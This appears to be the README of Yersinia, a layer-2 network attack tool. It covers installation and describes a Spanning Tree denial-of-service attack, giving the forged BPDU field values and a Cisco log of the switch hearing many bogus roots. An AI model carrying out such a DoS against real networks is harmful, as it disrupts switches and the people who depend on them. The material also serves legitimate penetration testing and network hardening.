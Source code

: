 [![Build Status](https://travis-ci.org/tomac/yersinia.svg?branch=master)](https://travis-ci.org/tomac/yersinia)

How to Install
-------------

Clone this repo inside `/opt/yersinia`.
Install the dependencies:
```
sudo apt install autoconf libgtk-3-dev libnet1-dev libgtk2.0-dev libpcap-dev -y
```
Then go inside `/opt/yersinia` and execute:
```
./autogen.sh
./configure --with-gtk        # flag required to compile with GUI support
make
make install
```

And that's it, you can now start it with:
```
yersinia -G
```

Spanning Tree
-------------

# 1: DOS attack sending conf BPDUs

    Let's send some conf BPDUs claiming be root!!! By sending continously conf BPDU with root pathcost 0, randomly
    generated bridge id (and therefore the same root id), and some default values for other fields, we try to 
    annoy the switches close to us, causing a DoS when trying to parse and recalculate their STP engines.

    Source MAC: randomly generated.
    Destination MAC: 01:80:c2:00:00:00
    Bridge ID: 8000:source_mac
    Root ID: 8000:source_mac
    Hello time: 2
    Forward delay: 15
    Max age: 20
    Root pathcost: 0

    <output from the cisco log>
    01:20:26: STP: VLAN0001 heard root 32768-d1bf.6d60.097b on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-9ac6.0f72.7118 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-85a3.3662.43dc on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-3d84.bc1c.918e on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-b2e2.1a12.dbb4 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-4ba6.2d45.5844 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-deb0.4f14.7288 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-4879.8036.0e24 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-2776.e340.9222 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-299e.de76.c07d on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-d38b.bc5b.e90d on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-78ee.0205.afdb on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-b32b.e969.81b1 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-b16b.c428.88a3 on Fa0/8
    01:20:26: STP: VLAN0001 heard root 32768-dd01.1436.9044 on Fa0/8
    </output>
